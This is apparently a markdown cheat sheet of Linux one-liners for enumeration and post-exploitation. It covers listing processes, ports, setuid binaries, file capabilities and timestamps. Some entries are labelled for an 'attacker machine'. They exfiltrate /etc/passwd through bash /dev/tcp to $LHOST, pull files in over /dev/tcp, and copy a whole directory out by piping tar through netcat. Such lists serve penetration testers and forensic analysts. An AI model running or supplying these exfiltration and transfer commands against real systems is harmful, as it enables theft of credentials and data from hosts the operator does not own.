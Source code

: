 # list all recursively with ls sorting by modification date within directories
```bash
ls -alRt
```

## enumerate open ports if `ss` is not present
```bash
netstat -tunlp
```

# process tree ps
```bash
ps -auxwf
ps -efw --forest
ps -efw --forest -M                  # SELinux
```

# find setuid binaries
```bash
find / -perm -4000 -ls 2>/dev/null
```

# find files belonging to user
```bash
find / -user username 2>/dev/null
```

# find files belonging to group
```bash
find / -group adm 2>/dev/null
```

# find files modified between specific dates
```bash
find / -type f -newermt "2022-02-20" -not -newermt "2022-02-28" 2>/dev/null
```

# find files modified between specific dates (with reference files)
```bash
touch --date "2007-01-01" /tmp/start
touch --date "2008-01-01" /tmp/end
find /data/images -type f -newer /tmp/start -not -newer /tmp/end 2>/dev/null
```

# get all file hashes in directory using find and md5sum
```bash
find . -exec md5sum {} \;
```

# get number of CPU processors
```bash
cat /proc/cpuinfo | grep processor | wc -l
```

# find all git repositories
```bash
find / -name .git 2>/dev/null
```

# get IP with no `ifconfig` or `ip a` on a host or within docker container
```bash
hostname -I
```
    -i, --ip-address       addresses for the host name
    -I, --all-ip-addresses all addresses for the host

# download files with just bash 
```bash
bash -c "cat < /dev/tcp/$LHOST/$LPORT" > filename
```
On attacker machine, `nc -lvnp $LPORT < filename`
# exfiltrate files bash pipe tcp
```bash
cat /etc/passwd > /dev/tcp/$LHOST/$LPORT
bash -c "cat /etc/passwd > /dev/tcp/$LHOST/$LPORT"
```

# find files that have millisecond microsecond nanosecond times not common install
files from package managers usually have all 0 for microsecond time in the file system, so files with microsecond times were touched by programs.
full iso time can be sorted alphabetically, so pipe to sort to sort the results.
```bash
find /etc/ -type f -printf "%T+ %p\n" 2>/dev/null | grep -v 0000000000
find /etc/ -type f -printf "%T+ %p\n" 2>/dev/null | grep -v 0000000000 | sort
```

# copy entire directory to attacker machine quickly by piping tar
attacker
```bash
## attacker
nc -lvnp 1337 | tar -xf -
## target
tar -cf - . | nc $LHOST 1337
```

# get capabilities of all files recursively
```bash
getcap -r / 2>/dev/null
```
